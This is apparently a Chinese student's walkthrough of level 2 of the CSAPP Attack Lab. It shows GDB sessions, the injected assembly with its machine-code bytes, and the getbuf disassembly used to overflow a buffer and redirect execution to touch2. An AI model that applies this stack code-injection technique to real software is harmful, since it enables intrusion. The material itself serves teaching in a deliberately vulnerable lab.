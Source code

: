 ```shell
(gdb) b *0x4017fcBreakpoint 1 at 0x4017fc: file visible.c, line 42.(gdb) info bNum     Type           Disp Enb Address            What1       breakpoint     keep y   0x00000000004017fc in touch2 at visible.c:42
```

可以利用`GDB`查看`cookie`的值是`0x59b997fa`，没想到只要是运行`test`函数，这个`cookie`值都是一样的

```shell
(gdb) run -q < ans2_raw.txt Starting program: /home/dargon/桌面/CSAPP/lab3_attack/target1/ctarget -q < ans2_raw.txtCookie: 0x59b997faBreakpoint 1, touch2 (val=4160412032) at visible.c:4242	visible.c: 没有那个文件或目录.(gdb) stepi0x0000000000401802	42	in visible.c(gdb) p $edi$1 = -134555264(gdb) p $rip$2 = (void (*)()) 0x401802 <touch2+22>(gdb) p *(int*)($rip+0x202ce2)$3 = 1505335290(gdb) p /x *(int*)($rip+ 0x202ce2)$4 = 0x59b997fa(gdb) 
```

* 针对于第2个问题：

`touch2`函数的入口地址直接就是`0x4017ec`

***

知乎作者周小伦提出，直接插入汇编代码

```assembly
movq    $0x59b997fa, %rdipushq   $0x4017ecret
```

将其运行之后，可以看见其二进制指令编码

```shell
gcc -c l2.sobjdump -d l2.o
```

```assembly
l2.o：     文件格式 elf64-x86-64Disassembly of section .text:0000000000000000 <.text>:   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi   7:	68 ec 17 40 00       	pushq  $0x4017ec   c:	c3                   	retq 
```

不理解的点：

执行完`getbuf`之后，回到`%rsp`这里，接着执行上面的三行汇编代码，就可以成功进入`touch2`执行。

***

**上面的两个问题解决之后，就是如何执行这两条指令，这是比较关键的地方。**

1. 首先将三条汇编代码写入到缓冲区里面
2. 利用Level1的方法，将执行完`getbuf`的返回地址，跳转到缓冲区的位置（根据`getbuf`找到缓冲区的位置）
3. 紧接着会执行缓冲区里面的代码，代码的含义
   1. 将参数寄存器`%rdi`赋值，以供`touch2`函数参数使用
   2. 将调用函数`touch2`的返回地址入栈，执行`ret`的时候，会返回到这个地址，就去执行`touch2`的内容。

***

* 查看`getbuf`的内容，找到缓冲区的入口地址

```assembly
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
End of assembler dump.
```
